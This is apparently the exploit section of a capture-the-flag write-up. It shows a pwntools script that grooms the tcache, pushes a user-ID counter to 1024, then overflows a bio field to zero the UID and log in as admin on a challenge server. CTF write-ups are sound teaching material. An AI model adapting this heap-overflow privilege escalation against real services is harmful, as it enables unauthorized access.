 ##  Exploit Script

```python
from pwn import *

p = remote("login.shared.challs.mt", 1337)
uid = 999

def adduser(index, name):
    global uid
    p.recvuntil(b'> ')
    p.sendline(b'1')           # Create user
    p.recvuntil(b'> ')
    p.sendline(index)
    p.recvuntil(b'> ')
    p.send(name)
    uid += 1
    print(f"[+] Added user {uid}")

def deleteuser(index):
    p.recvuntil(b'> ')
    p.sendline(b'4')           # Delete user
    p.recvuntil(b'> ')
    p.sendline(index)

# Fill tcache bin
for i in range(7):
    adduser(b'0', b'abc')
    deleteuser(b'0')

# Push UID counter up to 1024 (0x400)
while uid <= 1021:
    adduser(b'0', b'abc')
    deleteuser(b'0')

# Create user with uid=1024
adduser(b'0', b'A')            # This should be UID=1023
adduser(b'1', b'BBBBBBBBB')    # This should be UID=1024
deleteuser(b'0')               # Free the first

# Trigger the overflow — overwrite byte at bio[58] to null out UID=1024 → UID=0
adduser(b'0', b'A'*34)

# Now user at index 1 should be UID=0 (admin), so select and login
p.sendline(b'2')               # Select user
p.recvuntil(b'> ')
p.sendline(b'1')

p.sendline(b'5')               # Login
p.interactive()
```

##  Result
{{< figure src="result.png" alt="Script-Output" width="500" >}}
{{< figure src="flag.png" alt="flag" width="500" >}}
